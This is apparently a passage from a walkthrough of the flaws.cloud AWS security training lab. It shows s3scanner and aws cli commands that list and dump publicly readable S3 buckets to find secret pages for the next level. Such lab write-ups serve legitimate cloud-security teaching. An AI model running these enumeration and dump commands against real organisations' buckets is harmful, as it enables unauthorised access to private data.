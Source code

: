 ```
```

The scanner tells us there is an unprotected open S3 bucket pointing over at [flaws.cloud.s3.amazonaws.com](http://flaws.cloud.s3.amazonaws.com)

We can list and dump its content using another tool called [`s3scanner`](https://github.com/sa7mon/S3Scanner) (not necessary, just for example's sake):

```
s3scanner --threads 10 dump --dump-dir . --bucket flaws.cloud.s3.amazonaws.com

fog@cloudbreach:~/flaws/level1$ ll flaws.cloud.s3.amazonaws.com/
total 48
drwxrwxr-x 2 fog fog  4096 Dec 12 23:05 ./
drwxrwxr-x 3 fog fog  4096 Dec 12 23:05 ../
-rw-rw-r-- 1 fog fog  2575 Dec 12 22:52 hint1.html
-rw-rw-r-- 1 fog fog  1707 Dec 12 22:52 hint2.html
-rw-rw-r-- 1 fog fog  1101 Dec 12 22:52 hint3.html
-rw-rw-r-- 1 fog fog  3162 Dec 12 22:52 index.html
-rw-rw-r-- 1 fog fog 15979 Dec 12 22:52 logo.png
-rw-rw-r-- 1 fog fog    46 Dec 12 22:52 robots.txt
-rw-rw-r-- 1 fog fog  1051 Dec 12 22:52 secret-dd02c7c.html
```

The flag for the next level can be accessed by visiting `secret-dd02c7c.html`.

![](/images/aws/training_labs/flaws_1_level1.png)

---

## Level 2 - Enumerating public S3 buckets (AWS users)

!!!help "Objective"
    The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the free tier.

This time we will use `aws cli` to solve the challenge. The only difference with the previous level is that we will need valid AWS access keys to be able to list and download the contents of the S3 bucket.  

Profiles can be added to your local machine using `aws configure`.

```
fog@cloudbreach:~/flaws/level2$ aws s3 ls level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --profile=<aws_profile>
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```

From there we can try to download the contents of the bucket using `aws s3 sync`:
